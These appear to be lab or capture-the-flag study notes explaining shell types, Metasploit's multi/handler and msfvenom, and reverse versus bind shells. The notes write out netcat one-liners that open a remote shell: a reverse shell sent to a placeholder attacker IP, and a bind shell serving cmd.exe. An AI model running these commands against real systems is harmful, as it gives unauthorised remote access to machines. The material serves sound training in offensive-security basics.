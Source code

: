 - The only way to interact with a meterpreter shell and easiest way to handle staged payloads.

### Msfvenom

Like multi/handler, msfvenom is technically part of the Metasploit Framework.

- Shipped as a standalone tool
- Used to generate payloads on the fly
- Msfvenom can generate payloads other than reverse and bind shells

## Types of Shell

### Reverse Shells

When the target is forced to execute code that connects back to your computer (need a listener back to attacker computer).

- Reverse shells are good way to bypass firewall rules that may prevent from connecting to arbitrary ports on the target.
  - Drawback is to configure own network to accept the shell over the internet.

#### Reverse Shell Example

A reverse shell listener to receive the connection. A simulation of sending a reverse shell.

![reverse shell](https://i.imgur.com/rN7YkJJ.png)

On the attacking machine: `sudo nc -lvnp 443`

On the the target: `nc <LOCAL-IP> <PORT> -e /bin/bash`

### Bind Shells

When the code executed on the target is used to start a listener attached to a shell directly on the target.

- Open to the internet allowing to connect to the port that the code has opened and obtain remote code execution.
  - Advantage of not requiring any configuration on own network, but may be prevented by firewalls protecting the target.

#### Bind Shell Example

Listener on the target and telling it to execute `cmd.exe`.

On the target: `nc -lvnp <PORT> -e "cmd.exe"`

On the attacking machine: `nc MACHINE_IP <PORT>`

![bind shell](https://i.imgur.com/6GUwZsw.png)

### Interactive

If used Powershell, Bash, Zsh, sh or any other standard CLI environment to allow interaction with programs after executing them.
